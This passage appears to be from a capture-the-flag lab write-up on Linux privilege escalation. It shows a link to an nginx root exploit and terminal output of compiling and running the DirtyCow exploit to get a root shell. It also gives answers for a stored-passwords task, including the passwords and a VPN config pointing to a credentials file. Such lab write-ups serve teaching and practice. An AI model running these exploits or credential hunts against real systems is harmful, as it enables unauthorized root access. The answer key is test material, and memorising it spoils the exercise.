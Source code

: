 ```bash
   Download URL: https://legalhackers.com/exploits/CVE-2016-1247/nginxed-root.sh
   Comments: Rooting depends on cron.daily (up to 24h of dealy). Affected: deb8: <1.6.2; 14.04: <1.4.6; 16.04: 1.10.0

TCM@debian:~/tools/linux-exploit-suggester:
...
TCM@debian:~/tools/dirtycow$ gcc -pthread c0w.c -o c0w
TCM@debian:~/tools/dirtycow$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 84577000

madvise 0

ptrace 0

TCM@debian:~/tools/dirtycow$ passwd
root@debian:/home/user/tools/dirtycow# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user/tools/dirtycow#  
```


![image](https://github.com/user-attachments/assets/44c497bf-d15a-404b-83fb-b3a97c50318c)


<br>

<h2>Task 4 . Privilege Escalation - Stored Passwords (Config Files)</h2>

<h3 align="left">Answer the questions below</h3>

> 4.1. <em>What password did you find?</em><br><a id='4.1'></a>
>> <strong><code>password321</code></strong><br>

> 4.2. <em>What password did you find?</em><br><a id='4.2'></a>
>> <strong><code>user</code></strong><br>


<p>auth-user-pass /etc/openvpn/auth.txt</p>

```bash
TCM@debian:~$  cat /home/user/myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

```